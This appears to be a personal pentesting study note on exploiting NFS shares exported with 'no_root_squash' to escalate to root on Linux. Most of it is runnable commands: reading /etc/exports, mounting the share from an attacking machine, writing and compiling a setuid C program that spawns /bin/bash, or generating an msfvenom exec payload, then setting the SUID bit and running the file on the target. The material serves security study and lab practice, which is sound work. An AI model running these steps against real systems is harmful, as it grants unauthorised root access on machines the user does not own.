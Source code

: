 
# What it is?
just like ftp, smb

```
cat /etc/exports
```

config file of NFS

![[Pasted image 20240511000545.png]]

### Root Squash

Files created via NFS inherit the remote user's ID. If the user is root, and **root squashing is enabled**, the ID will instead be set to the "nobody" user.

![[Pasted image 20240511103732.png]]

mount one of the “no_root_squash” shares to our attacking machine and start building our executable

```
mkdir /tmp/backup
```

```
mount -o rw,vers=2 MACHINE_IP:/backups /tmp/backup


sudo mount -t nfs <FQDN/IP>:/full/path/to/share/from/showmount ./target-nfs/ -o nolock (normal mount)
```

we can set SUID bits, a simple executable that will run /bin/bash on the target system will do the job

> [!NOTE]
> We must need to this as root user in our kali

#### nfs.c
```
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/backup/nfs.c
```

compile it

```
gcc /tmp/backup/nfs.c -o /tmp/backup/nfs
```

#### msfvenom (preferable way)
```
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
chmod +xs /tmp/nfs/shell.elf
```

set SUID

```
chmod +sx /tmp/backup/nfs
```

![[Pasted image 20240511104350.png]]


**NOW GO TO LINUX MACHINE**

nfs and nfs.c should be there
just run it as it's already have SUID by root in kali

```
/backup/nfs

	OR
	
/backup/shell.elf
```

![[Pasted image 20240511104753.png]]

basically what this means is, if we mount that share and set any file there with root user in out kali then `no root sqaushing` allow that file as created by root and as it have SUID we get root shell when we run it